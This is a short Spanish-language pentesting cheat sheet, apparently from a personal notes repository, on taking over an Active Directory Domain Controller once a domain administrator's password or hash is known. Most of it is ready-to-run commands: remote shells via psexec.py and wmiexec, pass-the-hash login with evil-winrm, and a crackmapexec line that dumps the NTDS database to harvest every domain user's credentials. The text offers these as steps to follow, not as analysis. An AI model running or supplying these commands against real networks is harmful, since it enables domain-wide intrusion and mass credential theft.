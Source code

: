 # Requisitos
Para ganar acceso al `Domain Controller` debemos disponer de credenciales válidas de un `Administrador del dominio`.

# Realizar Autenticación
Una forma de hacerlo es mediante psexec
```
psexec.py <dominio>/<usuario>:<contraseña>@<ip_DC> cmd.exe
```
Ejemplo:
```
psexec.py wizzz.local/Administrador:Passw0rd@192.168.45.130 cmd.exe
```
También podemos ganar acceso si hemos conseguido su `hash` mediante evil-winrm
```
evil-winrm -i <ip-DC> -u '<Administrator>' -H '<hash>'
```
Se puede hacer también con otras herramientas como `wmiexec`
```
wmiexec.py <dominio>/<usuario>@<ip> -hashes <hash_ntds>
```

# Recomendaciones
Una vez se compromete el DC es recomendable dumpear el `ntds` de todos los equipos para tener acceso a todos los usuarios del Directorio Activo.
```
crackmapexec smb <ip_DC> -u 'Administrator' -p 'P@$$w0rd!' --ntds vss
```
